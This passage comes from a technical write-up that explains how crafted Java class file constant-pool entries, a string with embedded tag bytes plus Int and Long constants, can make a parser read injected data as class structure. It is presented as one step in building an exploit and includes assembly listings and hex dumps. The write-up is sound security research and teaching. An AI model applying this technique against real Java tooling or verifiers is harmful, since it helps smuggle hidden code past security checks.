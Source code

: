 One solution is to add enough constant pool entries so that the constants reach index 257 (`0101` in hex), so we can refer to them from inside the injected string data without using null bytes. We'll actually use this technique in the exploit later, but for now, let's look at a different technique that we'll also use later in the exploit, specifically `Int` and `Long` constants.

```
.class [2]
.super [0]

.const [1] = Utf8 "Foo"
.const [2] = Class [1]
.const [3] = Utf8 "\x03evilstring"
.const [4] = Utf8 "whatever"
```

Here we have two changes - evilstring is now just "\x03evilstring", and we added an extra constant _after_ evilstring.

```
00000000: cafe babe 0000 0031 0005 0100 0346 6f6f  .......1.....Foo
00000010: 0700 0101 0000 0365 7669 6c73 7472 696e  .......evilstrin
00000020: 6701 0008 7768 6174 6576 6572 0000 0002  g...whatever....
00000030: 0000 0000 0000 0000 0000                 ..........
```

Now, the constant pool count field is `0005` rather than `0004`. This means that when the parser gets to the `0365` (the beginning of our new evilstring), instead of trying to parse it as `access_flags`, it instead tries to parse it as the fourth constant pool entry. `03` is the tag byte of an `Int` constant, which is followed by an arbitrary four bytes giving the integer value. Therefore, the parser takes the following four bytes, `65 7669 6c` (the "evil" in "\x03evilstring"), and sets index 4 of the constant pool to the integer `0x6576696c`. 

Then it tries to parse `access_flags` starting at the bytes `73 74` (the "st" in evilstring), which is of course once again a bunch of invalid gibberish. However, we can continue this process by adding another fake tag.

```
.class [2]
.super [4]

.const [1] = Utf8 "Foo"
.const [2] = Class [1]
.const [3] = Utf8 "java/lang/Object"
.const [4] = Class [3]
.const [5] = Utf8 "java/lang/ClassLoader"
.const [6] = Class [5]
.const [7] = Utf8 "\x03evil\x05string"
.const [8] = Long 0x7700010002000600L
.const [10] = Utf8 "whatever"
```
```
00000000: cafe babe 0000 0031 000b 0100 0346 6f6f  .......1.....Foo
00000010: 0700 0101 0010 6a61 7661 2f6c 616e 672f  ......java/lang/
00000020: 4f62 6a65 6374 0700 0301 0015 6a61 7661  Object......java
00000030: 2f6c 616e 672f 436c 6173 734c 6f61 6465  /lang/ClassLoade
00000040: 7207 0005 0100 0003 6576 696c 0573 7472  r.......evil.str
00000050: 696e 6705 7700 0100 0200 0600 0100 0877  ing.w..........w
00000060: 6861 7465 7665 7200 0000 0200 0400 0000  hatever.........
00000070: 0000 0000 00                             .....
```
